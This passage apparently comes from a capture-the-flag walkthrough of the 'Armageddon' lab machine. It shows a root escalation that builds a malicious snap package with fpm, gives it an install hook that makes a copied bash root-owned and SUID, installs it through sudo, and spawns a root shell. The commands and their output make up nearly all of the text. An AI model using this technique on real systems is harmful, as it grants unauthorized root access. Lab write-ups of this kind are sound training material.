First, I need to prepare `bash` to give SUID permission.

```bash
[brucetherealadmin@armageddon ~]$ cp /usr/bin/bash .
[brucetherealadmin@armageddon ~]$ ls
bash  user.txt
```

Then, I need to generate snap file from kali.
I need to upload it to the target after that.

```bash
┌──(kali㉿kali)-[/tmp]
└─$ COMMAND='chown root:root /home/brucetherealadmin/bash;chmod 4755 /home/brucetherealadmin/bash'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}
```

After that, I can run `snap` command with the uploaded snap file.

```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": exit status 1)
```

After everything is done, let's check the `bash`'s permission.

```bash
[brucetherealadmin@armageddon ~]$ ls -al bash
-rwsr-xr-x. 1 root root 964536 Dec 31 19:28 bash
```

Since it now has SUID bit, I can spawn a bash shell with root authority.

```bash
[brucetherealadmin@armageddon ~]$ ./bash -p
bash-4.2# id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) euid=0(root) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# whoami
root
```

I got root!